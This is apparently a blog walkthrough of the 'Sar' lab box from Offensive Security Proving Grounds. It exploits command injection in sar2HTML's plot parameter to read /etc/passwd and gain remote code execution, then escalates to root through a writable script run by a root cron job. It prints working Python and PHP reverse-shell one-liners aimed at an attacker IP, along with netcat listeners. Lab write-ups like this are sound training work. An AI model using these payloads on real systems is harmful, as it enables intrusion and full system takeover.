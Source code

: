 ```yaml
---
layout: posts
author_profile: false
title: Sar Walkthrough
---
```

### A step-by-step walkthrough of the box **"Sar"** exploiting sar2HTML via Remote Code Execution (RCE)
- **Box Location:** Offensive Security Proving Grounds
- **Difficulty Rating:** Easy
- **Starting Location:** Kali VM in the same subnet

- - - 

### Step 1: Network Scanning
Perform a stealth scan of the entire subnet to identify target machine
```
nmap -sS [ip range]
```

- identify open ports
- open ip address in browser
  * shows default Apache page

- - -

### Step 2: Directory Brute Force
Perform a directory brute force with the tool of your choice
```
gobuster dir -u [url] -w [path to wordlist]
```
- identifies robot.txt
- Download the file with *curl* and inspect
```
curl [url]/robots.txt
cat robots.txt
```
  - text file says **sar2HTML**
  * try running in browser: http://ipaddress/sar2HTML/
  * shows that it is a tool running on the server

- - -

### Step 3: Research sar2HTML for vulnerabilities
- Research to find **sar2HTML** exploit
  * Exploit-DB shows Sar2HTML 3.2.1 has an RCE (no CVE)
  * Exploit = *http:192.168.1.24/sar2HTML/index.php?plot=;your-command*
    * Example: **http:192.168.1.24/sar2HTML/index.php?plot=; cat /etc/passwd**

- - - 

### Now I want a reverse shell
- At least a few options:
 1. Use Python or Perl command to take reverse shell
 2. Metaploit to create a reverse connectdion file and u pload it on target using wget 
 3. If target has NetCut utility, it can take the reverse connection

### Attempt NetCut utility
  - Run nc command to see if it has output
    - > nc -help
    - any return on output means it is available (does not work here)
### Attempt Python or Perl package
  - Run python help command to verify any output
    - > python3 --help
    - This works

Example command used with RCE:
```
python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.20”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);
```
```
nc -lvp 1234
```
- Gain stable shell access:

> python3 -c ‘import pty;pty.spawn(“/bin/bash”)’

- **user flag can be found here** (/home/love/Desktop/user.txt)
- - -
### Gain Root
  - Find exploits based on OS and kernel versions
    - no luck
  - Check weak file permission and processes
    - Found a **cron job** is being run as a root user
      - > cat /etc/crontab
    - Cron job = ***/5 * * * * root cd /var/www/html/ && sudo ./finally.sh**
    - Navigate to /var/www/html/ and see what is there
      - finally.sh is calling write.sh
      - write.sh is create a folder in temp directory
      - the command **ls -l** shows we can edit write.sh
      - Add a php reverse connection command into write.sh
        * > php -r ‘$sock=fsockopen(“192.168.1.20”,4444);exec(“/bin/sh -i <&3 >&3 2>&3”);’
        * IP address = attacker machine (mine)
        * Setup listener **nc -lvp 4444**
        * Wait 5 mins for cron job
  - **root flag: cat /root/root.txt**

### Echo the php script into the write.sh file
> echo "php -r '\$sock=fsockopen(\"192.168.57.200\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
- echo requires a \ in front of a $ and " (probably more)




